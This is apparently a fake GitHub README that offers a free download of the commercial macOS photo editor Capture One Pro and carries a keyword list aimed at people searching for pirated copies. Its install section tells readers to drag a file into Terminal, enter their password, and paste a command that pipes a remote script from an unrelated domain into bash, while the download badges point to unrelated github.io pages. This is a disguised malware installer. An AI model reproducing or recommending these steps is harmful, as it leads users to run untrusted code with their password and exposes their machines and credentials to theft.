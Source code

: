 # 📷 Capture One Pro — Professional RAW Photo Editing for macOS

**Capture One Pro** is a high-end RAW photo editor for macOS, trusted by professional photographers and studios around the world. It offers precision color grading, tethered shooting, and advanced image management tools — all in a sleek, customizable interface optimized for Mac users.

Whether you're shooting fashion, landscapes, or product photography, Capture One Pro delivers exceptional detail and creative control.

---

## ✅ Download Capture One Pro for macOS  
[![Download Capture One Pro](https://img.shields.io/badge/Download-Capture_One_Pro-blueviolet)](https://taxact-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Capture One Pro?

Capture One Pro is a professional RAW editing and image cataloging software designed for photographers who demand the highest image quality and workflow speed. It supports RAW files from over 500 camera models and offers tethered capture, layers, and non-destructive editing with full macOS optimization.

---

## ✨ Features

- 🎨 **Precise color grading tools** with advanced HSL, color balance wheels, and skin tone correction  
- 📸 Tethered shooting support for major camera brands  
- 🧠 Smart adjustments and AI-masked layers for efficient retouching  
- 📂 Asset management and photo organization with sessions or catalogs  
- 🖼️ Non-destructive editing with local adjustments and layers  
- ⚡ Fast performance and GPU acceleration for high-res workflows  
- 🔌 Plugin support and custom styles/presets  
- 🖥️ Native Apple Silicon (M1/M2) support and macOS optimization  

---

## 💡 Why Use Capture One Pro?

- 📷 Designed for professionals who need high-speed, high-accuracy RAW editing  
- 🧰 Full-featured control over exposure, tone, color, and composition  
- 🔄 Tethering and live view make it ideal for studio photography  
- 🎯 Delivers unmatched detail and rendering for Fujifilm, Sony, Nikon, and Canon RAWs  
- 🚀 Smooth and responsive experience on macOS devices  

---

[![Download Capture One Pro](https://img.shields.io/badge/Download-Capture_One_Pro-blueviolet)](https://capture-one-pro-mac-download.github.io/.github)

---

## 🖼️ Preview

![Capture One Pro Screenshot 1](https://learn.captureone.com/wp-content/uploads/sites/2/JordanBush_JPEG-80-Quality-Full-Size-Adobe-RGB.jpg)  
![Capture One Pro Screenshot 2](https://static.filehorse.com/screenshots-mac/photo-and-design/capture-one-mac-screenshot-01.png)

---

## 📌 Tags

capture one pro, capture 1 pro, capture one fujifilm, capture one for mac,  
capture one pro sony, capture 1 sony, capture one pro cost, download capture one free,  
capture one 23, capture one pro 23, capture one 22, capture one 23 pro,  
capture one photo editing, capture one 22 download, capture one express sony,  
capture one discount, capture one 20, capture one mac download, captureone 23,  
capture one sale, nikon capture one, capture one pro price, capture one 12,  
capture one pro license, capture one pro student, download capture one pro,  
capture one 23 enterprise, capture one for free, capture one pro mac, capture one pro mac download
